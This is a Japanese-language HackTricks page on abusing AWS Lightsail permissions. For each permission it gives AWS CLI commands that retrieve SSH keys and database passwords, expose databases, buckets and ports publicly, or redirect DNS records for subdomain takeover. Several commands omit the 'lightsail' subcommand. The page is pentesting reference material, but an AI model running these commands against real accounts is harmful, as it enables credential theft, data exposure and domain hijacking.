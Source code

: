 # AWS - Lightsail Privesc

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

## Lightsail

Lightsailに関する詳細情報は次を確認してください：

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Lightsailは**ユーザーに属するIAMロールを使用しない**ことに注意することが重要です。代わりにAWS管理アカウントを使用するため、このサービスを利用して権限昇格を行うことはできません。しかし、**コード、APIキー、データベース情報**などの**機密データ**がこのサービス内に存在する可能性があります。
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

この権限により、インスタンスにアクセスするためのSSHキーを取得できます：
```
aws lightsail download-default-key-pair
```
**潜在的な影響:** インスタンス内の機密情報を見つける。

### `lightsail:GetInstanceAccessDetails`

この権限を使用すると、インスタンスにアクセスするためのSSHキーを生成できます：
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**潜在的な影響:** インスタンス内の機密情報を見つける。

### `lightsail:CreateBucketAccessKey`

この権限を使用すると、バケットにアクセスするためのキーを取得できます:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**潜在的な影響:** バケット内の機密情報を見つける。

### `lightsail:GetRelationalDatabaseMasterUserPassword`

この権限を使用すると、データベースにアクセスするための資格情報を取得できます：
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**潜在的な影響:** データベース内の機密情報を見つける。

### `lightsail:UpdateRelationalDatabase`

この権限を使用すると、データベースにアクセスするためのパスワードを変更できます：

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

データベースが公開されていない場合、次の権限を使用して公開することもできます。

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**潜在的な影響:** データベース内の機密情報を見つける。

### `lightsail:OpenInstancePublicPorts`

この権限は、ポートをインターネットに開放することを許可します。
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**潜在的な影響:** 機密ポートへのアクセス。

### `lightsail:PutInstancePublicPorts`

この権限は、ポートをインターネットに開放することを許可します。指定されていないポートは閉じられることに注意してください。
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**潜在的な影響:** 機密ポートへのアクセス。

### `lightsail:SetResourceAccessForBucket`

この権限は、追加の資格情報なしでインスタンスにバケットへのアクセスを許可します。

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**潜在的な影響:** 機密情報を含むバケットへの新しいアクセスの可能性。

### `lightsail:UpdateBucket`

この権限を持つ攻撃者は、自分のAWSアカウントにバケットへの読み取りアクセスを付与したり、バケットを誰でも公開にすることができます:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**潜在的な影響:** 機密情報を含むバケットへの新しいアクセスの可能性。

### `lightsail:UpdateContainerService`

この権限を持つ攻撃者は、コンテナサービスからプライベートECRへのアクセスを付与することができます。
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**潜在的な影響:** プライベートECRから機密情報を取得する

### `lightsail:CreateDomainEntry`

この権限を持つ攻撃者は、サブドメインを作成し、自分のIPアドレスにポイントすることができる（サブドメインの乗っ取り）、またはドメインからのメールを偽装することを可能にするSPFレコードを作成することができる、さらにはメインドメインを自分のIPアドレスに設定することもできる。
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**潜在的な影響:** ドメインの乗っ取り

### `lightsail:UpdateDomainEntry`

この権限を持つ攻撃者は、サブドメインを作成し、自分のIPアドレスにポイントさせることができる（サブドメインの乗っ取り）、またはSPFレコードを作成してドメインからのメールを偽装することを許可することができる、さらにはメインドメインを自分のIPアドレスに設定することもできる。
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**潜在的影響:** ドメインの乗っ取り

{% hint style="success" %}
AWSハッキングを学び、実践する:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください!
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
